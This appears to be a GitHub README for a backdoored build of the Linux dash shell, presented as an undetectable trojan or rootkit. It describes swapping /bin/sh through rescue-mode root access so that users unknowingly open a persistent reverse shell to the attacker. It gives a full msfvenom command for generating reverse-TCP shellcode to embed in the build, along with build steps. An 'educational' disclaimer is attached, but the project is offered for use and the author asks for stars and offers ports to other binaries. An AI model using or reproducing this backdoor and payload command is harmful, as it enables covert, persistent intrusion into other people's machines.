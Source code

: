 # Dash shell Linux Trojan Backdoor (Undetectable Mar 29, 2023)

The purpose of this is to demonstrate what security risks there are when someone gains physical access to your computer. 

# WARNING
THIS CODE IS MALWARE!!! IT IS A LINUX TROJAN BACKDOOR! IT WILL OPEN A BACKDOOR INTO YOUR COMPUTER SYSTEM AND WILL ALLOW UNAUTHORIZED ACCESS TO IT. EXERCISE EXTREME CAUTION AND USE SECURITY BEST PRACTICES FOR EDUCATION USE. 

# Possiple attack
An attack might look like this: Enter rescue mode and pop a root shell without a password. Replace the /bin/sh binary with this rootkit. The users probably won't know. The shell will still be 100% functional. 
Use this for persistence so the next time an authorized user accesses their account (with the 'sh' shell), you will receive a reverse shell that persists (in a new process) even after the terminal is closed.

The modified code is well documented. 
Change the shellcode in the `pskexec_dash()` function.
You can use a command like `msfvenom -p linux/x64/shell_reverse_tcp PrependFork=true LHOST=0.0.0.0 LPORT=3443 -f raw > shellcode.bin.tmp; xxd -i shellcode.bin.tmp > shellcode-addme.c; rm shellcode.bin.tmp` to generate a replacement. Make sure to change the IP address and port number in the above command to your server.

If you find this code useful, please leave a star ⭐.

# Build
Run the following commands.
```sh
./autogen.sh
./configure
make

# Optional
strip ./src/dash

# DO NOT RUN `make install` OR THE MALWARE WILL INSTALL ON YOUR COMPUTER!!!
```
The binary is located in `./src/dash`.


# Disclaimer
This project was developed for security research, my own curiosity, and ethical hacking, educational purposes. It was intended to be used responsibly. Do not use this code for anything illegal in your jurisdiction. LICENSE TERMS APPLY.

Hack responsibly.

# Requests
If anyone finds this code useful I can port it to other linux binaries. This rootkit is easy to integrate to any other GNU/Linux C/C++ program.

# LEGAL NOTICE
The creators of the orginal "Dash" Software and their affiliates do not support or endorse the project titled "dash-shell-rootkit". The use of the Software in the project is solely at the discretion of this project's creators and contributors. See the COPYING file for the previous "Dash" license.


If you find this code useful, please leave a star ⭐.
